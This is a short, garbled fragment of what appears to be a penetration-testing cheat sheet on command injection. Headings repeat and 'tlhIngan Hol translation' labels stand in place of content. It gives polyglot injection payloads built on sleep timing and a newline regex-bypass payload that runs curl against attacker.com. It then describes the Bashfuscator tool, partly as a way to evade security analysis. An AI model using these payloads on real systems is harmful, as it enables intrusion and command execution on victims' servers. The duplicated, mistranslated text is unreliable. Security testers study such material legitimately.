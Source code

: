 #### tlhIngan Hol translation:

### Polyglot command injection

#### tlhIngan Hol translation
```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
```
### Bypass potential regexes

### Bypass potential regexes

#### tlhIngan Hol Translation:

### Bypass potential regexes

### Bypass potential regexes
```bash
# A regex that only allow letters and numbers might be vulnerable to new line characters
1%0a`curl http://attacker.com`
```
### Bashfuscator

### Bashfuscator

Bashfuscator is a tool used to obfuscate Bash scripts, making them more difficult to understand and analyze. It achieves this by applying various techniques that modify the structure and behavior of the script without changing its functionality.

Bashfuscator can be used for different purposes, such as protecting sensitive information embedded in scripts, preventing reverse engineering, or bypassing security measures that rely on script analysis.

Some of the techniques used by Bashfuscator include:

- **Variable substitution**: Bashfuscator replaces variable names with random strings, making it harder to understand the purpose of each variable.

- **Code rearrangement**: Bashfuscator reorders the lines of code, making it more challenging to follow the script's logic.

- **Control flow modification**: Bashfuscator alters the control flow of the script by introducing conditional statements, loops, or jumps, making it harder to trace the execution path.

- **String manipulation**: Bashfuscator modifies string literals by splitting them into multiple parts or encoding them in different formats, making it more difficult to extract sensitive information.

- **Function obfuscation**: Bashfuscator renames functions and modifies their structure to confuse analysts trying to understand their purpose.

It's important to note that Bashfuscator is not foolproof and may not provide complete protection against skilled analysts. However, it can significantly increase the effort required to understand and analyze a Bash script, acting as an additional layer of defense.
